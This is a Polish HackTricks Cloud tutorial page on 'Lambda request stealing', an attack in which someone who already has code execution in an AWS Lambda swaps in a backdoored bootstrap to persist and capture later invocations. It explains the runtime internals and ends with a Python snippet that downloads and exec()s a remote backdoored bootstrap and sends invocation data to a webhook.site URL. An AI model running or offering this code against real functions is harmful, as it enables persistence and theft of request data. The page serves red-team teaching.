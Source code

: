 # AWS - Kradzież żądań Lambda

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>

## Przepływ Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** to proces poza kontenerem, który **wysyła wywołania** do procesu **init**.
2. Proces init nasłuchuje na porcie **9001**, ujawniając kilka interesujących punktów końcowych:
* **`/2018-06-01/runtime/invocation/next`** – pobierz następne zdarzenie wywołania
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – zwróć odpowiedź obsługiwarza dla wywołania
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – zwróć błąd wykonania
3. **bootstrap.py** ma pętlę pobierającą wywołania od procesu init i wywołuje kod użytkownika do ich obsługi (**`/next`**).
4. W końcu **bootstrap.py** wysyła do init **odpowiedź**.

Zauważ, że bootstrap ładuje kod użytkownika jako moduł, więc wszelkie wykonanie kodu wykonywane przez kod użytkownika faktycznie dzieje się w tym procesie.

## Kradzież żądań Lambda

Celem tego ataku jest spowodowanie wykonania przez kod użytkownika złośliwego procesu **`bootstrap.py`** wewnątrz procesu **`bootstrap.py`**, który obsługuje podatne żądanie. W ten sposób **złośliwy proces bootstrap** rozpocznie **komunikację z procesem init** w celu obsługi żądań, podczas gdy **uczciwy** bootstrap jest **uwięziony** uruchamiając złośliwy, więc nie będzie prosił o żądania do procesu init.&#x20;

Jest to proste zadanie do osiągnięcia, ponieważ kod użytkownika jest wykonywany przez uczciwy proces **`bootstrap.py`**. W związku z tym atakujący mógłby:

* **Wysłać fałszywy wynik bieżącego wywołania do procesu init**, aby init myślał, że proces bootstrap czeka na więcej wywołań.
* Żądanie musi zostać wysłane do **`/${invoke-id}/response`**&#x20;
* Identyfikator wywołania można uzyskać z stosu uczciwego **`bootstrap.py`** procesu, korzystając z modułu pythona [**inspect**](https://docs.python.org/3/library/inspect.html) (jak [zaproponowano tutaj](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) lub po prostu ponownie żądając go do **`/2018-06-01/runtime/invocation/next`** (jak [zaproponowano tutaj](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Wykonaj złośliwy **`boostrap.py`**, który będzie obsługiwał kolejne wywołania
* W celu zachowania dyskrecji można przesłać parametry wywołań lambda do kontrolowanego przez atakującego C2, a następnie obsłużyć żądania jak zwykle.
* Dla tego ataku wystarczy uzyskać oryginalny kod **`bootstrap.py`** z systemu lub [**githuba**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodać złośliwy kod i uruchomić go z bieżącego wywołania lambdy.

### Kroki ataku

1. Znajdź podatność na **RCE**.
2. Wygeneruj **złośliwy** **bootstrap** (np. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Wykonaj** złośliwy bootstrap.

Możesz łatwo wykonać te czynności, uruchamiając:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Dla dalszych informacji sprawdź [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referencje

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)
